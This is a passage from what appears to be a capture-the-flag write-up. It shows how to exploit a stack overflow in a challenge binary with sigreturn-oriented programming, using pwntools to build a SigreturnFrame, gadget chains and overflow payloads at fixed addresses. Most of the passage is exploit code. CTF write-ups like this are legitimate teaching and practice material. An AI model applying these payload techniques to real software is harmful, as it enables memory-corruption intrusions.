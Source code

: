 ```  
UC_FLAGS           #  
####################  
RIP = SIGRETURN    #  
####################  
saved rbp          #  
####################

```

ok building this by hand would take a loooooooong time :D so good that we have
python3 and pwntools.  
pwntools can build the SigreturnFrame for us.  
so we want to Write somewhere in this region `0x0000000000402000
0x0000000000403000 0x0000000000002000 rw- /root/ctf/some/some` as this is the
only region where we can write to and it is not affected by ASLR.

```  
 frame1 = SigreturnFrame(kernel='amd64')  
 frame1.rip = 0x40100e           #rip = addr of gadget(syscall; ret;)  
 frame1.rdi = 0x0                #rdi = 0 read from stdin  
 frame1.rsi = 0x40203b           #rsi = arg1 = where we want to save the input
0x0000000000402000 0x0000000000403000 0x0000000000002000 rw-
/root/ctf/some/some since only Aslr is enabled we choose this sctions as it is
not affected by aslr only by PIE which is not active so these addresses will
not get randomized  
 frame1.rdx = 0x320              #rdx = arg2 = how much bytes we can read in  
 frame1.rax = 0x0                #rax = syscall read(rdi,rsi,rdx) this reads
our input(stdin) and stores it at rsi & rsp since they are on the same addres
now  
 frame1.rsp = 0x40203b           #set rsp  
 frame1.rbp = 0x402043           #set rbp  
```  
ok our frame is rdy now we construct the 1st payload  
```  
#1st input  
 payload1 = b'A'*500             # fill the buffer  
 payload1 += b'\x00'*8           # fill the rbp  
 payload1 += p64(0x401006)       #1st ret # places the ret point to 0x00401006
gadget( mov eax,0 ;mov rdi,rax; syscall ; ret; )  
 payload1 += p64(0x40100e)       #2nd ret # places the ret point to 0x0040100e
gadget( syscall ; ret;) that than executes sigret() that sets the registers
for syscall again now as read(0x0,40203b,0x320) which stores our input
beginning at 0x40203b  
 payload1 += bytes(frame1)       #places the SigretrunFrame on the Stack for
the sigreturn() that gets poped into the registers  
 sl(payload1)  
```  
this will fill the buffer with 508 bytes of junk than sest a read() and a
syscall() gadget on the stack and than our prepared SigreturnFrame.

than we jump to 0x401006 which is our read() we input 15 bytes to set rax=0xf
which is the argument for syscall sigreturn()  
```  
 payload2 = b'ABCDEFGHIJKLM\x00'  
 sl(payload2)  
```
